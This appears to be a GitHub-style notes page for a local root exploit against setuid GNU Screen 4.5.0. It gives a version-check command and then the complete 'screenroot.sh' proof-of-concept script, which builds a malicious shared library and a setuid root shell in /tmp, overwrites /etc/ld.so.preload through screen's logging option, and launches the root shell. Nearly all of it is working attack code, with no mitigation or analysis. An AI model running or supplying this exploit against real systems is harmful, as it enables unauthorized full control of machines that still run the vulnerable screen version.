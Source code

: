 #### Screen Version Identification
```Shell
screen -v
```

#### Privilege Escalation - Screen_Exploit.sh
```Shell
./screen_exploit.sh 
```

#### Screen_Exploit_POC.sh
```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```
